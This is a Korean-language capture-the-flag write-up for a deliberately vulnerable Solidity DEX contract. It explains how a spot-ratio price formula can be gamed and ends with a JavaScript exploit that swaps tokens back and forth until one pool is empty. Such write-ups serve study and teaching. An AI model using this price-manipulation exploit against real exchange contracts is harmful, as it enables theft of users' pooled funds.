

## 문제
### 지문
이 문제의 목표는 기본 DEX 컨트랙트의 가격 계산 방식을 조작해서 컨트랙트가 가진 두 토큰 중 하나를 전부 빼내는 것이다.
플레이어는 `token1` 10개와 `token2` 10개를 가지고 시작한다. DEX 컨트랙트는 각 토큰을 100개씩 가지고 있다.
레벨 성공 조건은 컨트랙트 안의 `token1` 또는 `token2` 중 하나의 잔액을 0으로 만드는 것이다.
일반적인 ERC20 스왑에서는 먼저 토큰 컨트랙트에 `approve`를 호출해서 DEX가 내 토큰을 가져갈 수 있게 해야 한다. 이 문제에서는 편의를 위해 `Dex.approve(spender, amount)`가 두 토큰에 대한 승인을 한 번에 처리해준다.
### 코드
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/token/ERC20/IERC20.sol";
import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";
import "openzeppelin-contracts-08/access/Ownable.sol";

contract Dex is Ownable {
    address public token1;
    address public token2;

    constructor() {}

    function setTokens(address _token1, address _token2) public onlyOwner {
        token1 = _token1;
        token2 = _token2;
    }

    function addLiquidity(address token_address, uint256 amount) public onlyOwner {
        IERC20(token_address).transferFrom(msg.sender, address(this), amount);
    }

    function swap(address from, address to, uint256 amount) public {
        require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
        require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
        uint256 swapAmount = getSwapPrice(from, to, amount);
        IERC20(from).transferFrom(msg.sender, address(this), amount);
        IERC20(to).approve(address(this), swapAmount);
        IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
    }

    function getSwapPrice(address from, address to, uint256 amount) public view returns (uint256) {
        return ((amount * IERC20(to).balanceOf(address(this))) / IERC20(from).balanceOf(address(this)));
    }

    function approve(address spender, uint256 amount) public {
        SwappableToken(token1).approve(msg.sender, spender, amount);
        SwappableToken(token2).approve(msg.sender, spender, amount);
    }

    function balanceOf(address token, address account) public view returns (uint256) {
        return IERC20(token).balanceOf(account);
    }
}

contract SwappableToken is ERC20 {
    address private _dex;

    constructor(address dexInstance, string memory name, string memory symbol, uint256 initialSupply)
        ERC20(name, symbol)
    {
        _mint(msg.sender, initialSupply);
        _dex = dexInstance;
    }

    function approve(address owner, address spender, uint256 amount) public {
        require(owner != _dex, "InvalidApprover");
        super._approve(owner, spender, amount);
    }
}
```
## 배경지식
<hr />
DEX는 decentralized exchange, 즉 탈중앙화 거래소를 말한다. 중앙화 거래소는 보통 호가창을 기준으로 매수자와 매도자를 매칭하지만, AMM 방식의 DEX는 컨트랙트 안에 들어있는 토큰 풀과 가격 공식으로 교환량을 계산한다.
예를 들어 A 토큰과 B 토큰이 풀에 들어있다면, 스왑 가격은 풀 내부의 A/B 비율에 영향을 받는다. 그래서 스왑 한 번이 끝날 때마다 풀의 잔액이 바뀌고, 다음 스왑의 가격도 달라진다.
<hr />
실제 AMM에서는 보통 `x * y = k` 같은 불변식을 두고, 수수료와 슬리피지까지 고려해서 한 번의 거래가 풀을 비정상적으로 망가뜨리지 못하게 한다.
그런데 이 문제의 `Dex`는 단순히 현재 풀 잔액의 비율만 사용한다.
$$
swapAmount = amount \times \frac{balance(to)}{balance(from)}
$$
이 공식은 스왑 결과로 바뀔 잔액을 고려하지 않는다. 공격자가 양쪽 방향으로 계속 스왑하면, 매번 바뀐 풀 비율을 이용해서 점점 더 많은 토큰을 받아낼 수 있다.
<hr />
Solidity의 `uint256` 나눗셈은 소수점 이하를 버린다. 예를 들어 \$20 times 110 / 90\$은 수학적으로 약 \$24.44\$지만, Solidity에서는 `24`가 된다.
문제는 소수점 버림 자체보다 잘못된 가격 공식에 있다. 다만 계산 결과가 정수로 잘리기 때문에 실제 스왑 수량을 손으로 따라갈 때는 항상 버림을 적용해야 한다.
## 문제 코드 분석
<hr />
먼저 스왑 가능한 토큰 제한을 보자.
```solidity
require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
```
`swap`은 `token1 -> token2` 또는 `token2 -> token1` 방향만 허용한다. 그래서 임의의 악성 토큰을 끼워 넣는 방식은 이 문제에서는 막혀 있다. 그 방식은 다음 문제인 Dex Two의 포인트에 가깝다.
두 번째 `require`는 사용자가 `from` 토큰을 충분히 가지고 있는지만 확인한다. 컨트랙트가 `to` 토큰을 충분히 가지고 있는지 별도로 확인하지는 않지만, 마지막 `transferFrom`에서 잔액보다 많이 보내려 하면 ERC20 전송이 실패한다. 마지막 스왑에서는 받을 토큰의 컨트랙트 잔액을 넘지 않도록 `amount`를 맞춰야 한다.
<hr />
이제 가격 계산식을 보자.
```solidity
function getSwapPrice(address from, address to, uint256 amount) public view returns (uint256) {
    return ((amount * IERC20(to).balanceOf(address(this))) / IERC20(from).balanceOf(address(this)));
}
```
가격은 DEX가 가진 `to` 토큰 잔액을 `from` 토큰 잔액으로 나눈 비율로 정해진다.
처음에는 DEX가 `token1 = 100`, `token2 = 100`을 가지고 있으므로 `token1` 10개를 넣으면 `token2` 10개를 받는다. 이 스왑 이후 DEX 잔액은 `token1 = 110`, `token2 = 90`이 된다.
이제 반대로 `token2` 20개를 넣으면 계산은 `20 * 110 / 90 = 24`가 된다. 사용자는 처음보다 더 많은 `token1`을 받아간다. 이 과정을 반복하면 한쪽 풀 잔액이 빠르게 줄어든다.
<hr />
마지막으로 승인 흐름을 보자.
```solidity
function approve(address spender, uint256 amount) public {
    SwappableToken(token1).approve(msg.sender, spender, amount);
    SwappableToken(token2).approve(msg.sender, spender, amount);
}
```
`Dex.approve`는 `msg.sender`의 두 토큰에 대해 `spender`에게 allowance를 준다. 공격 전에 `contract.approve(contract.address, amount)`를 한 번 호출하면 DEX가 플레이어의 두 토큰을 가져갈 수 있다.
`SwappableToken.approve(owner, spender, amount)`에는 `owner != _dex` 조건이 있지만, 여기서 `owner`는 플레이어 주소이므로 문제가 되지 않는다.
## 풀이
토큰을 `A = token1`, `B = token2`라고 하자. 시작 상태는 다음과 같다.
- 플레이어: `A = 10`, `B = 10`
- DEX: `A = 100`, `B = 100`
공격은 현재 가진 토큰을 번갈아 스왑하면서 풀 비율을 계속 공격자에게 유리하게 만드는 방식이다.
처음 `A -> B`로 10개를 바꾸면 `10 * 100 / 100 = 10`이므로 플레이어는 `B` 10개를 받는다. 이제 플레이어는 `B = 20`을 가지고, DEX는 `A = 110`, `B = 90`이 된다.
다음에는 `B -> A`로 20개를 바꾼다. 계산은 `20 * 110 / 90 = 24`가 되고, 플레이어는 `A` 24개를 받는다.
이런 식으로 반복하면 수량은 다음처럼 진행된다.
```plain text
swap A -> B 10  => DEX A=110, B=90
swap B -> A 20  => DEX A=86,  B=110
swap A -> B 24  => DEX A=110, B=80
swap B -> A 30  => DEX A=69,  B=110
swap A -> B 41  => DEX A=110, B=45
swap B -> A 45  => DEX A=0,   B=90
```
마지막에 플레이어는 `B`를 65개 가지고 있지만 전부 넣으면 받을 `A`가 DEX 잔액 110개보다 커져서 전송이 실패할 수 있다. 그래서 마지막 스왑은 `B` 45개만 넣는다.
$$
45 \times \frac{110}{45} = 110
$$
이렇게 하면 DEX의 `token1` 잔액을 정확히 0으로 만들 수 있다.
### 익스플로잇
```javascript
const token1 = await contract.token1();
const token2 = await contract.token2();

await contract.approve(contract.address, 500);

await contract.swap(token1, token2, 10);
await contract.swap(token2, token1, 20);
await contract.swap(token1, token2, 24);
await contract.swap(token2, token1, 30);
await contract.swap(token1, token2, 41);
await contract.swap(token2, token1, 45);
```

